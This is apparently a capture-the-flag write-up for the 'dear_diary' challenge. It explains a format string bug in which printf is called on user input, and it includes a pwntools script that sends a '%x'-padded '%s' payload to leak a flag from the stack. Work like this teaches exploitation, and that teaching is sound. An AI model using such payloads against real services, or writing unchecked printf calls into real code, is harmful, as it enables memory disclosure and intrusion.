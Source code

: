 dear_diary
==========

**Solved by:** [int10h](https://github.com/brianmwaters) and [mut3](https://github.com/mut3)

> We all want to keep our secrets secure and what is more important than our precious diary entries? We made this highly secure diary service that is sure to keep all your boy crushes and edgy poems safe from your parents. `nc diary.vuln.icec.tf 6501`

The binary has a pretty straightforward menu-based interface that lets you create objects and print them. We might be looking for a heap-based vulnerability here:

```
brian@katahdin:dear_diary$ ./dear_diary
-- Diary 3000 --

1. add entry
2. print latest entry
3. quit
> 1
Tell me all your secrets: ok!

1. add entry
2. print latest entry
3. quit
> 2
ok!

1. add entry
2. print latest entry
3. quit
> 3
brian@katahdin:dear_diary$
```

However, the binary doesn't like it if if any of our "entries" contain `n`'s:

```
brian@katahdin:dear_diary$ ./dear_diary
-- Diary 3000 --

1. add entry
2. print latest entry
3. quit
> 1
Tell me all your secrets: no way!
rude!
brian@katahdin:dear_diary$
```

The object allocation turned out to be stack-based, not heap-based, so no use after free here. I spent waaay too much time looking for some kind of overflow, but everything was buttoned up tight. Then I found it, staring me in the face:

![IDA screenshot of format string vulnerability](format string vulnerability.png)

In case you can't read that, `printf` is being called with a single, user-controlled argument. This explains why the binary exits if any of our secrets contain the letter `n` - it's sanitizing the input against the `printf` `%n` specifier that can lead to arbitrary code execution!

That's okay though, because we don't need the `%n` specifier here anyway. The binary reads `flag.txt` into memory on startup and stores it's address near the top of `main`'s stack frame (well, actually, the bottom, since the stack grows down). Since the vulnerable `printf` call is in a stack frame directly below `main`, we can get it to read past all the crap we don't care about with a bunch of `%x`'s, and then read the flag out with `%s`. I don't think we even used the debugger to find the right number of `%x`'s; we just kept adding more 'til it worked:

```
#!/usr/bin/env python2

from pwn import *
remote_host='diary.vuln.icec.tf'
remote_port=6501
context(arch='i386',os='linux')

def pwn():
  print "Beginning pwn!"
  address = p32(0x0804a0a0) # literally leave the memory address '0804a0a0'
  payload = "%x"*17+"%s" # clear 17 4-byte words and then the string at the 4
byte pointer
  child.recvuntil('>') # wait for prompt
  child.sendline('1') # choose new entry
  child.sendline(address)
  child.recvuntil('>')
  child.sendline('1')
  child.sendline(payload)
  child.recvuntil('>')
  child.sendline('2')
  print(child.recv())


child = remote(remote_host,remote_port)
pwn()
child.interactive()
```
